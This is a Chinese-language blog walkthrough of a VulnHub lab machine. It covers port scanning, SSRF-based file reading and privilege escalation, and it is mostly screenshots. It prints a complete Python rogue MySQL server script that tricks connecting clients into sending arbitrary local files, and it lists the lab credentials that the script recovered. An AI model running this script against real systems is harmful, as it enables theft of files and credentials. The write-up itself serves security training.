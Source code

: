 +++
title = '0x067 readme'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE105e556d62df904228189b4475e208aeimage.png)

![](/vulnhub_img/WEBRESOURCEc464496b093cbef56ffdb913ef6a8bc3image.png)

![](/vulnhub_img/WEBRESOURCE4b9470766de50513b0d3745a11c3a4ddimage.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEde8183202983a156ccc4f87730660b7aimage.png)

![](/vulnhub_img/WEBRESOURCEe7801f6d0dc2dcb2cdb8be32e8b89bb2image.png)

![](/vulnhub_img/WEBRESOURCE0ce94fd56d492a62392b93fcf3dab2d8image.png)

![](/vulnhub_img/WEBRESOURCE457f2266402615a06cc4fb01c8ec7e6aimage.png)

这里右键图片，可以发现目录：

![](/vulnhub_img/WEBRESOURCE87fff234d0dec2589a519b542f8246c6image.png)

![](/vulnhub_img/WEBRESOURCE777d642af0cb44f81143290792690ad5image.png)

![](/vulnhub_img/WEBRESOURCE619cf45715c94b62e287f46475a1c228image.png)

我感觉是在提示我们使用文件读取，但是该怎么进行文件读取呢：

SSRF是有本地文件读取的可能性的：

![](/vulnhub_img/WEBRESOURCEcd6af48624611705a08094423f4f067bimage.png)

[https://xz.aliyun.com/t/11225#toc-5](https://xz.aliyun.com/t/11225#toc-5)

用的这个脚本：

```
# -*- coding: utf-8 -*-
import socket
import os
import sys

#--------------------------------------------------------------------------------------------------------------------
port = int(sys.argv[1])
#--------------------------------------------------------------------------------------------------------------------

def mysql_get_file_content(sv, filename):
    conn, address = sv.accept()
    logpath = os.path.abspath('.') + "/log/" + address[0]
    if not os.path.exists(logpath):
        os.makedirs(logpath)
    # Conn from address)
    conn.sendall(
        "\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
    conn.recv(9999)
    # auth okay
    conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
    conn.recv(9999)
    # want file...
    wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
    conn.sendall(wantfile)
    content = conn.recv(9999)
    conn.close()

    if len(content) > 4:
        with open(logpath + "/" + filename.replace("/", "_").replace(":", "_"), "w") as txt:
            txt.write(content)
        return True
    else:
        return False



# 开始监听
sv = socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("", port))
sv.listen(5)
print "Listen Begin in port "+str(port)

# 日志文件夹




# 循环监听
while True:
    filename = raw_input("请输入接下来你想读的文件名 (直接按回车退出): ")
    if filename == "":
        break
    res = mysql_get_file_content(sv, filename)
    if res:
        print "Read Success! ---> "+filename
    else:
        print "Not Found~ ---> "+filename
```

![](/vulnhub_img/WEBRESOURCEfea96fe14cdbce21b2b238751779ddbbimage.png)

![](/vulnhub_img/WEBRESOURCE634ea01e5bc19e5e1e193b40c4c8e121image.png)

在当前目录会生成一个文件：

VU: julian

P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh

![](/vulnhub_img/WEBRESOURCE654438541a35043e400f28215b28fe99image.png)

这就是账号密码：

![](/vulnhub_img/WEBRESOURCEc83575ead2b7abfdca457aa1dbaf6b1dimage.png)

# 提权

这里有两个文件，明显是不属于这里的：

![](/vulnhub_img/WEBRESOURCE1d9abfd922dc9fa444decdbb88225f37image.png)

然后这里要逆向，把这串二进制字符串逆向出来，代码要求能力挺高的，暂且解决不了，密码如下：

So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE

![](/vulnhub_img/WEBRESOURCE688bbb58ef0d256b857c69d8f6cd6bbdimage.png)